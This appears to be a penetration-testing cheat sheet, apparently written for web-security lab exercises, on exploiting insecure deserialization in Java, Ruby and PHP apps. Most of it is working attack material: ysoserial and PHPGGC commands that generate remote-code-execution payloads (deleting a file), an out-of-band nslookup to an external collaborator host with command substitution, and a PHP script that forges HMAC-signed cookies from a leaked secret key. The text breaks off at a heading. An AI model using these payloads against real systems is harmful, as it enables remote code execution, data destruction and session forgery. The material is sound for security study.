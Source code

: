 Pre-built gadget exploitation. We can use the “ysoserial” tool to generate a malicious serialized Object containing a remote code execution payload. Note: that the “ysoserial” tool is dependent on Java version 15 or lower.

Some example payloads may be:

```bash
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > test.txt
```

This payload can be used to exfiltrate data, for example. Copy and paste the results into the Cookie of the target app. Check out more obfuscation examples in the "Command Injection" folder:

```bash
./java -jar /root/Tools/ysoserial-all.jar CommonsCollections4 "nslookup `echo 'hello'|base64`.r29q0ep.oastify.com" | base64 -w 0 > ../../test1-1.txt
```
# Ruby Deserialization with Pre-built Gadget - Ruby

Enumerate the application and identify if it is using a serialized Object in any of the HTTP requests. For Ruby serialized objects, you can use a pre-built gadget to generate a malicious Ruby serialized object and exploit the app:

- [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)
- [https://www.onlinegdb.com/online_ruby_compiler](https://www.onlinegdb.com/online_ruby_compiler)
# PHP Deserialization with Pre-built Gadget - PHP

Enumerate the app and identify if there are any dependencies that the app is using. For example, if the app depends on the Symfony framework, you can use a tool to generate a malicious serialized object:

- Tool: PHPGGC
- Payload: ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64

If the serialized object is being signed using a SHA-1 HMAC hash, identify if the app is disclosing the secret key in any of the config files or responses. The "/cgi-bin/phpinfo.php" file is a good place to search for. The following script can be used to then sign the serialized object using the secret key:

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```
# Developing Custom Gadget - Java Deserilaization
